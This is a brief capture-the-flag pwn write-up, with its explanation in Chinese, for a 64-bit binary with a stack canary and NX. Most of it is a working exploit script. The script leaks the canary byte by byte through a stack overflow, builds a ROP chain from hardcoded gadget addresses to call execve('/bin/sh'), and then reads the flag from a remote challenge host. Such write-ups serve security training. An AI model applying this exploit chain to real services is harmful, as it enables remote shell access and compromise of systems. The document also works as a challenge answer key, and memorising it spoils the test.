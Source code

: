 # poc
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

> 泄漏canary -> 栈溢出 -> ROP -> execve("/bin/sh", 0, 0)

栈溢出，由于数组在canary上面，因此可以泄漏至少相邻1Bcanary，找到可写位置写上"/bin/sh\x00"，通过ROP构造execve("/bin/sh", 0, 0)，需要用到ruby脚本。

# exp

```python
from pwn import *

p = remote('54.65.72.116', 31337)

payload = '''
p = Sock.new '127.0.0.1', 31338
pad = 0xdeadbeefdeadbeef
g1 = 0x00000000004125e3
s = '/bin/sh\x00'
g2 = 0x00000000004005d5
g3 = 0x000000000049e472
g4 = 0x00000000004017f7
g5 = 0x0000000000443776
g6 = 0x0000000000468e75
write_addr = 0x6ce000
canary = ''
for i in 0..7
    payload = 'a' * (0x18 + i) 
    p.send payload
    r = p.recvuntil '\x0a'
    if r.length == (0x18 + i + 1)
        canary += '\x00'
    else
        canary += r[0x18 + i]
    end
end

payload = 'a' * 0x18 + canary
payload += p64(pad)
payload += p64(g2) + p64(write_addr) + p64(g1)
payload += p64(g5) + s
payload += p64(g3)
payload += p64(g2) + p64(0x3b) + p64(g1)
payload += p64(g2) + p64(write_addr)
payload += p64(g4) + p64(0)
payload += p64(g5) + p64(0)
payload += p64(g6)
p.send payload
p.send 'exit\n'
p.sendline 'cat /home/start/flag'
print p.recv 10000000
print p.recv 10000000
'''

p.sendline(payload)
p.interactive()
```
